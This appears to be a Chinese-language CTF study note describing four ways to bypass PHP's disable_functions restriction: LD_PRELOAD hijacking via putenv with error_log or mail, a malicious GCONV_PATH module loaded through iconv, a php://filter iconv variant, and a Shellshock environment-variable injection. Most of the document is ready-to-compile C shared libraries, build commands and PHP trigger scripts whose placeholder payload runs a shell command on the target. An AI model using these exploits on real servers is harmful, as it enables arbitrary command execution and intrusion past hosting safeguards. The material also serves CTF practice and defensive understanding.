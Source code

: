 - # 主要思路
	- 使用环境变量等方式控制php执行c库中的函数，从而绕过php自带的disable_function安全机制
- # 参考
	- https://www.lxscloud.top/2022/04/15/PHP-Bypass-disable_function/
- # 提示
	- 下面的方式都需要写入文件，实际操作时可以考虑使用[[CTF/PHP/利用FTP进行文件写入]]进行文件写入
- # 方式一
	- 要求
		- 允许函数putenv()和error_log()或mail()且存在可写目录和可以传输文件到靶机
	- 步骤
		- 把这个编译为`exp.so`扔进某个文件夹（例如`/tmp/`）中
			- ```c
			  #include <stdlib.h>
			  #include <stdio.h>
			  
			  int geteuid() {
			  	if(getenv("LD_PRELOAD") != NULL) { 
			  		unsetenv("LD_PRELOAD");
			  		system("ls / > /tmp/t.txt"); // payload在这
			  	} else {
			  		return 0;
			  	}	
			  }
			  ```
			- ```shell
			  gcc exp.c -o exp.so -shared -fPIC
			  ```
		- PHP执行
			- ```php
			  <?php 
			  putenv("LD_PRELOAD=/tmp/exp.so");
			  # exp.so在下面这行被调用
			  error_log("",1,"","");
			  # 当然我们还有
			  mb_send_mail("a@localhost","","","","");
			  # 当然我们还有
			  mail("","","","");
			  ?>
			  ```
- # 方式二
	- 注意
		- 这里复现时有一个坑，就是如果PHP执行没反应需要多执行几次（大概手搓十几次这样）
	- 要求
		- 允许函数putenv()、iconv()和可以传输文件到靶机
	- 步骤
		- 把这个编译了放进目标中（比如说放进`/tmp/exp.so`）
			- ```c
			  #include <stdio.h> 
			  #include <stdlib.h> 
			  
			  void gconv() {
			  }
			  
			  void gconv_init() {  
			  	system("ls / > /tmp/t.txt");
			  }
			  ```
			- ```shell
			  gcc exp.c -o exp.so -shared -fPIC
			  ```
		- 把这个写进同一个文件夹（这里是`/tmp/`）中的`gconv-modules`中
			- ```text
			  module  exp//    INTERNAL    /tmp/exp    2
			  module  INTERNAL   exp//    /tmp/exp    2
			  ```
		- 最后执行这里的php
			- ```php
			  <?php 
			  putenv("GCONV_PATH=/tmp/"); // 当然这里是tmp文件夹
			  iconv("exp", "UTF-8", "");
			  ?>
			  ```
- # 方式三
	- 方式二的变种
	- 要求：允许putenv和使用convert.iconv这个`php://`伪协议的filter
	- 步骤：和方式二相同，只不过执行的PHP变成这个：
		- ```php
		  <?php
		  putenv("GCONV_PATH=/tmp/"); 
		  include('php://filter/read=convert.iconv.exp.utf-8/resource=/proc/self/cmdline');
		  ?>
		  ```
- # 方式四
	- > 未复现
	- 当然是shell shock
		- ```php
		  <?php
		  putenv("PHP_flag=() { :; }; ls / > /tmp/t.txt");
		  error_log("",1,"","");
		  ?>
		  
		  ```
